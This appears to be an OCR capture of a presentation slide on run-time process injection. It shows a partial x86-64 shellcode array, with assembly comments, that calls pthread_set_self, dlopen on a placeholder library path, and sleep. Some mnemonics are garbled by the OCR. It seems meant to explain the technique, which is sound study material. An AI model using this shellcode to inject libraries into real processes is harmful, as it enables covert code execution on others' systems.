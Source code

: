 ## RUN-TIME PROCESS INJECTION target's process architecture

| //remote library loading shellcode (x86 64) |  |
| --- | --- |
| char shellCode[] = |  |
| "\x90" | // nop.. |
| "\x55" | pushq |
| "\x48\x89\xe5" | / movq |
| "\x48\x83\xec\x20" | suba |
| "\x89\x7d\xfc" | / movl |
| "\x48\x89\x75\xf0" | // movq |
| "\xb0\x00" | / movb |
| // call pthread set self |  |
| "\x48\xbf\x00\x00\x00\x00\x00\x00\x00\x00" | // movabso |
| "\x48\xb8" " PTHRDSS" | // movabso |
| "\xff\xd0" | // callq |
| "\x48\xbe\x00\x00\x00\x00\x00\x00\x00\x00" | / / movabso |
| "\x48\x8d\x3d\x2c\x00\x00\x00" | // leag |
| // dlopen |  |
| "\x48\xb8" "DLOPEN | movabso |
| "\x48\xbe\x00\x00\x00\x00\x00\x00\x00\x00" | // movabso |
| "\xff\xd0" | // callq |
| // sleep(1000000)... |  |
| "\x48\xbf\x00\xe4\x0b\x54\x02\x00\x00\x00" | movabso |
| "\x48\xb8" "SLEEP | // movabso |
| "\xff\xd0" | // callq |
| // plenty of space for a full path name here |  |

"LIBLIBLIB" "\x00\x00\x00\x00\x00\x00\x00....";
